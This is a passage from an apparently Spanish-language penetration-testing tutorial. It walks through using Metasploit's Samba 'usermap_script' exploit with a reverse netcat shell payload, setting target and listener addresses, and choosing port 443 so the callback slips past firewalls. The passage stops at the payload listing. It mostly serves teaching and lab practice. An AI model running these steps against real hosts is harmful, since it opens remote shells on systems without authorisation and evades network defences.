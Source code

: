 ```

```
Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script

msf6 > 
```

`msf6 > use exploit/multi/samba/usermap_script`

Bien, ya tenemos nuestro exploit, ahora queda configurarlo mediante `show options`:

```
Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.0.114    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

`msf6 exploit(multi/samba/usermap_script) > set RHOST=<ip_target>`
`msf6 exploit(multi/samba/usermap_script) > set LHOST=<ip_address>`
`msf6 exploit(multi/samba/usermap_script) > set LPORT=443`

Ya hemos definido el exploit, pero antes de pasar a definir el payload, quiero explicar el por qué usar el puerto 443. El puerto 443 se utiliza para conexiones
seguras, aunque puedes usar el puerto que quieras (siempre que no esté en uso), recomiendo usar el 443 aún sin ser una auditoría real. Esto es debido a que los
firewalls acostumbran a filtrar las conexiones entrantes, también las salientes, pero es más probable que al ver una conexión segura evites al firewall, ya que no
detectará nada extraño.
  

  
Ahora sí, definamos el payload:

`msf6 exploit(multi/samba/usermap_script) > show payloads`

```
Compatible Payloads